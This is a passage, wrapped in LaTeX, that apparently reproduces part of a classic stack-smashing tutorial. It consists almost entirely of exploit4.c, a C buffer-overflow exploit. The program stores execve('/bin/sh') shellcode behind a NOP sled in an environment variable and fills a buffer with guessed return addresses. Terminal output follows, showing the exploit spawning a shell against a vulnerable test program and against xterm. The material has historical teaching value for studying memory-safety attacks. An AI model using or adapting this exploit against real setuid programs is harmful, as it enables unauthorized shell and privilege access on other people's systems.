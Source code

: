 \documentclass[12pt]{article}
\begin{document}
new exploit now looks like this:

\begin{lstlisting}[caption=exploit4.c]
#include <stdlib.h>
#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512
#define DEFAULT_EGG_SIZE               2048
#define NOP                            0x90

char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46"
  "\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
  "\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_esp(void) 
{
   __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) 
{
  char *buff, *ptr, *egg;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i, eggsize=DEFAULT_EGG_SIZE;

  if (argc > 1) bsize   = atoi(argv[1]);
  if (argc > 2) offset  = atoi(argv[2]);
  if (argc > 3) eggsize = atoi(argv[3]);
  if (!(buff = malloc(bsize))) 
  {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  if (!(egg = malloc(eggsize))) 
  {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_esp() - offset;
  printf("Using address: 0x%x\n", addr);
  ptr = buff;
  addr_ptr = (long *) ptr;
  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  ptr = egg;
  for (i = 0; i < eggsize - strlen(shellcode) - 1; i++)
    *(ptr++) = NOP;

  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];

  buff[bsize - 1] = '\0';
  egg[eggsize - 1] = '\0';  memcpy(egg,"EGG=",4);
  putenv(egg);
  memcpy(buff,"RET=",4);
  putenv(buff);
  system("/bin/bash");
}
\end{lstlisting}

Lets try our new exploit with our vulnerable test program: 

\begin{verbatim}
[aleph1]$ ./exploit4 768
Using address: 0xbffffdb0 
[aleph1]$ ./vulnerable $RET
$
\end{verbatim}

Works like a charm. Now lets try it on xterm: 

\begin{CJK}{UTF8}{bsmi} %
\begin{verbatim}
[aleph1]$ export DISPLAY=:0.0
[aleph1]$ ./exploit4 2148
Using address: 0xbffffdb0
[aleph1]$ /usr/X11R6/bin/xterm -fg $RET
Warning: Color name
...°¤ÿ¿°¤ÿ¿°¤ ...

Warning: some arguments in previous message were lost
$
\end{verbatim}
\end{CJK}
\end{document}
